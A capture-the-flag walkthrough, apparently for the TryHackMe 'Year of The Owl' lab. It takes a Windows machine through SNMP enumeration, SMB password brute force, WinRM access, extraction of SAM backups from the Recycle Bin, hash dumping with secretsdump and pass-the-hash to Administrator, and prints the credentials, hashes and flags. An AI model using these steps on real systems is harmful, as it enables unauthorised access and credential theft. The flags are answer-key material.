 > Year of The Owl

**export IP=10.10.82.140**

# Nmap

sudo nmap -sC -sV -T4 -Pn -p- -oN nmap/initial $IP

```
80/tcp    open  http          syn-ack ttl 127 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.10)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.10
|_http-title: Year of the Owl
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      syn-ack ttl 127 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.10)
445/tcp   open  microsoft-ds? syn-ack ttl 127
3306/tcp  open  mysql?        syn-ack ttl 127
| fingerprint-strings: 
|   NULL: 
|_    Host 'ip-10-8-107-21.eu-west-1.compute.internal' is not allowed to connect to this MariaDB server
| mysql-info: 
|_  MySQL Error: Host 'ip-10-8-107-21.eu-west-1.compute.internal' is not allowed to connect to this MariaDB server
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
```

# Gobuster

sudo gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x .txt,.php,.html,.sql,.bak,.zip,.cgi,.js -o gobuster/initial

```
Nil
```

We got nothing much interesting from now. Let's try UDP scan.

# UDP Scan

We can run the top 10 ports.

sudo nmap -sU --top-ports 10 10.10.39.26

```
53/udp   open|filtered domain
67/udp   open|filtered dhcps
123/udp  open|filtered ntp
135/udp  open|filtered msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open|filtered snmp
445/udp  open|filtered microsoft-ds
631/udp  open|filtered ipp
1434/udp open|filtered ms-sql-m
```

There are many services. After reading writeups I moved with snmp. We can use a tool `onesixtyone` .This tool is a SNMP scanner. First we have to have a `community string`. We can also bruteforcing using this tool.

onesixtyone 10.10.39.26 -c /usr/share/wordlists/SecLists/Discovery/SNMP/snmp-onesixtyone.txt 

```
10.10.39.26 [openview] Hardware: Intel64 Family 6 Model 63 Stepping 2 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 17763 Multiprocessor Free)
```

Ooh we got the `community string` : `openview`. Let's use snmp-check now!

# snmp-check

snmp-check -c openview 10.10.39.26

We got some usernames.

```
[*] User accounts:

  Guest               
  Jareth              
  Administrator       
  DefaultAccount      
  WDAGUtilityAccount 
```

We could also gain usernames manually using snmpwalk. SNMP usually stores data in a tree structure and read information from left to right. And the default location of the usernames is `1.3.6.1.4.1.77.1.2.25`. 

snmpwalk -c openview -v1 10.10.225.41 1.3.6.1.4.1.77.1.2.25

```
iso.3.6.1.4.1.77.1.2.25.1.1.5.71.117.101.115.116 = STRING: "Guest"
iso.3.6.1.4.1.77.1.2.25.1.1.6.74.97.114.101.116.104 = STRING: "Jareth"
iso.3.6.1.4.1.77.1.2.25.1.1.13.65.100.109.105.110.105.115.116.114.97.116.111.114 = STRING: "Administrator"
iso.3.6.1.4.1.77.1.2.25.1.1.14.68.101.102.97.117.108.116.65.99.99.111.117.110.116 = STRING: "DefaultAccount"
iso.3.6.1.4.1.77.1.2.25.1.1.18.87.68.65.71.85.116.105.108.105.116.121.65.99.99.111.117.110.116 = STRING: "WDAGUtilityAccount"
```

All we have is an username let's try and crack some services using crackmapexec.

crackmapexec smb 10.10.225.41 -u Jareth -p /usr/share/wordlists/rockyou.txt

```
SMB         10.10.225.41    445    YEAR-OF-THE-OWL  [+] year-of-the-owl\Jareth:sarah
```

We can try WinRM too.

/opt/evil-winrm/evil-winrm.rb -i 10.10.225.41 -u Jareth -p sarah

We are in as Jareth.

# user.txt

```
THM{Y2I0NDJjODY2NTc2YmI2Y2U4M2IwZTBl}
```

# Privilege Escalation

Looks like there is antivirus in place and after reading some writeups we come to know that SID's are recycled in recycle bin which are only visible to admin. (C:\$Recycle.bin\<SID>) But this is present in every user's account . That means we can only access our own account's SID.

whoami /all | Select-String -Pattern "jareth" -Context 2,0


```
  User Name              SID
  ====================== =============================================
> year-of-the-owl\jareth S-1-5-21-1987495829-1628902820-919763334-1001
```

We got our SID now let's see the files.

cd C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001

We got 2 files

```
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/18/2020   7:28 PM          49152 sam.bak
-a----        9/18/2020   7:28 PM       17457152 system.bak
```

We need to move these files to a temp location and we can dowload them to our machine using evil-winrm's download.

```
copy system.bak C:\Windows\Temp\system.bak
copy sam.bak C:\Windows\Temp\sam.bak
download C:\Windows\Temp\sam.bak
download C:\Windows\Temp\system.bak
```

# Dumping Creds with secretsdump.py

sudo python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL >> hashes.txt

```
[*] Target system bootKey: 0xd676472afd9cc13ac271e26890b87a8c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6bc99ede9edcfecf9662fb0c0ddcfa7a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:39a21b273f0cfd3d1541695564b4511b:::
Jareth:1001:aad3b435b51404eeaad3b435b51404ee:5a6103a83d2a94be8fd17161dfd4555a:::
[*] Cleaning up...
```

Let's use admin's hash to get priv access.

sudo /opt/evil-winrm/evil-winrm.rb -i 10.10.225.41 -u Administrator -H 6bc99ede9edcfecf9662fb0c0ddcfa7a

We are in as admin!!

# admin.txt

```
THM{YWFjZTM1MjFiZmRiODgyY2UwYzZlZWM2}
```